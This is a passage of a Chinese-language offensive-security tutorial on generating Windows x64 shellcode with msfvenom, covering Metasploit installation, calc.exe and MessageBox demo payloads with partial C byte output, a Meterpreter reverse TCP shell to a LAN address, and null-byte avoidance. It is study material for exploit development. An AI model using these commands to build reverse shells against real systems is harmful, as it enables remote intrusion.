 **安装**:
```bash
# Kali Linux / Parrot OS
apt install metasploit-framework

# macOS
brew install metasploit

# 或使用 Docker
docker run --rm -it metasploitframework/metasploit-framework msfvenom
```

**生成 calc.exe Shellcode**:
```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f c
```

输出:
```c
unsigned char buf[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
...
"\x63\x61\x6c\x63\x00";  // "calc\0"
```

**生成 MessageBox Shellcode**:
```bash
msfvenom -p windows/x64/messagebox \
    TEXT="Shellcode Injected!" \
    TITLE="Success" \
    -f c
```

**生成 Meterpreter Reverse Shell**:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=192.168.1.100 \
    LPORT=4444 \
    -f raw -o meterpreter.bin
```

**保存为二进制文件**:
```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc_shellcode.bin
```

### Shellcode 编码器

**绕过坏字符**:
```bash
# 避免 null bytes (0x00)
msfvenom -p windows/x64/exec CMD=calc.exe \
    -b '\x00' \
    -f c
```

